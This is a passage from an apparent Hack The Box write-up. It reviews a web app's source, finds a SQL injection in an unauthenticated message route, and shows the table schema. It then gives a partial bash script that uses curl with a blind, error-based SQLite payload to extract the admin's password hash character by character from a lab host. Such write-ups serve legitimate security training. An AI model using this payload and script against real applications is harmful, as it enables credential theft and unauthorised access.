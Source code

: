 ### Source Code Review

I noticed `/submitmessage` is the only route that doesn't require authentication, so this has a high chance of being the way in.

{% include image.html image_alt="bdf91824.png" image_src="/d6c24de1-704b-4907-af66-242191337928/bdf91824.png" %}

Notice the use of Python format string operation instead of parameter substitution? According to Python's `sqlite3` [module](https://docs.python.org/3.8/library/sqlite3.html),

> You shouldn’t assemble your query using Python’s string operations because doing so is insecure; it makes your program vulnerable to an SQL injection attack.

The only caveats are: 1) the SQL injection string must not be more than 140 characters long and 2) it must not contain these words.

{% include image.html image_alt="73b0e28e.png" image_src="/d6c24de1-704b-4907-af66-242191337928/73b0e28e.png" %}

### Database Schema

This is the schema I got from reading the source code.

```
CREATE TABLE users(
username TEXT NOT NULL,
secret TEXT NOT NULL,
role INT NOT NULL);
CREATE TABLE messages(
message text not null);
```

### SQL Injection

By making use of the following SQL injection payload, I was able to tease out `admin`'s `secret` hash (SHA256 of the password) from the `users` table. `admin` has a role of 1, obviously.

<div class="filename"><span>get_secret.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.195
PORT=80

# query database
function query() {
    local pos="$1"
    local chr="$2"
    local err="zeroblob(999999999)"
    local payload="'||(select case when substr((select secret from users where role=1),POS,1)='CHR' then ERR else 1 end from users))--"
    payload="${payload/POS/$pos}"
    payload="${payload/CHR/$chr}"
    payload="${payload/ERR/$err}"
    local result=$(curl -s \
                        --data-urlencode "message=${payload}" \
                        http://$HOST:$PORT/submitmessage)
    echo $result
}

SECRET=""

# SHA256 has 64 characters; and each character should be [0-9a-f]
for pos in $(seq 64); do
    for chr in {0..9} {a..f}; do
        if [ "$(query $pos $chr)" != "OK" ]; then
```

[1]: https://www.hackthebox.eu/home/machines/profile/261
[2]: https://www.hackthebox.eu/home/users/profile/19014
[3]: https://www.hackthebox.eu/